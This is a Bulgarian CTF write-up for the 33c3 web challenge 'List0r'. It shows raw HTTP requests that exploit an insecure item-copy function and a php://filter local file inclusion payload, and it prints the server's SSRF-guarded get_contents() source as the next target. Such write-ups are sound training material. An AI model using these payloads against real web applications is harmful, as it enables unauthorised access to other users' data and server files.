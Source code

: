 # **List0r** - 400 точки
**33c3ctf/web**

![](files/header.png)


отдалечен уеб сървър: http://78.46.224.80/

Първата уязвима функция която открих се намира във функцията за копиране на item от list-овете който можем да създаваме. 

![](files/copy_function.png)

Уязвимоста ни позволява да правим хоризонтални ескалаций в правата и да копираме чужд item в наш list. 

```
GET /?target=<int(4453)-ID на нашия list>&page=item&action=copy&item=<int-номер на item който искаме да копираме в нашия лист> HTTP/1.1
Host: 78.46.224.80
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8
Cookie: PHPSESSID=bh3hcnmsltvp97oaobcivap6g7
Connection: close
```

Направих бързо енумериране(и прехвърляне) на 1вите създаде items и ето че този с номер 5 ни издава нещо интересно:

![](files/item_hint.png)

Оказва се обаче че файлът - **reeeaally/reallyy/c00l/and_aw3sme_flag**, не може да бъде достъпен директно с GET заявка към сървъра. 

Файлът трябва да бъде достъпен през localhost

```
403 - Sorry, but this is only accessible from 127.0.0.1
```

Явно трябва да има още уязвими функций по пътя. Такива че да можем да направим  **Local File Inclusion**(LFI)

Такава уязвимост успях да намеря отново посредством **PHP филтри** в:

```
GET /?page=php://filter/convert.base64-encode/resource=index HTTP/1.1
Host: 78.46.224.80
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8
Cookie: PHPSESSID=bh3hcnmsltvp97oaobcivap6g7
Connection: close
```

Макар и да **НЕ** можем да достъпим флагът през тази функция успяваме да изтеглим всички релевантни за web апликацият [*.php файлове](files/source_code_p400.tar.gz) от сървъра. Забиваме поглед в сорс-кода и му правивм ревю за други уязвимости.

Файлът който представлява най-голям интерес е **functions.php** и по-специално функцията **get_contents($url)**:

```
function get_contents($url) {
        $disallowed_cidrs = [ "127.0.0.1/24", "169.254.0.0/16", "0.0.0.0/8" ];

        do {
            $url_parts = parse_url($url);

            if (!array_key_exists("host", $url_parts)) {
                die("<p><h3 style=color:red>There was no host in your url!</h3></p>");
            }

            $host = $url_parts["host"];

            if (filter_var($host, FILTER_VALIDATE_IP, FILTER_FLAG_IPV4)) {
                $ip = $host;
            } else {
                $ip = dns_get_record($host, DNS_A);
                if (count($ip) > 0) {
                    $ip = $ip[0]["ip"];
                    debug("Resolved to {$ip}");
                } else {
                    die("<p><h3 style=color:red>Your host couldn't be resolved man...</h3></p>");
                }
            }

            foreach ($disallowed_cidrs as $cidr) {
                if (in_cidr($cidr, $ip)) {
                    die("<p><h3 style=color:red>That IP is a blacklisted cidr ({$cidr})!</h3></p>");
                }
            }

            // all good, curl now
            debug("Curling {$url}");
            $curl = curl_init();
            curl_setopt($curl, CURLOPT_URL, $url);
            curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
            curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false);
            curl_setopt($curl, CURLOPT_MAXREDIRS, 0);
            curl_setopt($curl, CURLOPT_TIMEOUT, 3);
            curl_setopt($curl, CURLOPT_PROTOCOLS, CURLPROTO_ALL 
                & ~CURLPROTO_FILE 
                & ~CURLPROTO_SCP); // no files plzzz
            curl_setopt($curl, CURLOPT_RESOLVE, array($host.":".$ip)); // no dns rebinding plzzz

            $data = curl_exec($curl);

            if (!$data) {
                die("<p><h3 style=color:red>something went wrong....</h3></p>");
            }

            if (curl_error($curl) && strpos(curl_error($curl), "timed out")) {
                die("<p><h3 style=color:red>Timeout!! thats a slowass  server</h3></p>");
            }

            // check for redirects
            $status = curl_getinfo($curl, CURLINFO_HTTP_CODE);
            if ($status >= 301 and $status <= 308) {
                $url = curl_getinfo($curl, CURLINFO_REDIRECT_URL);
            } else {
                return $data;
            }

        } while (1);
    }
```
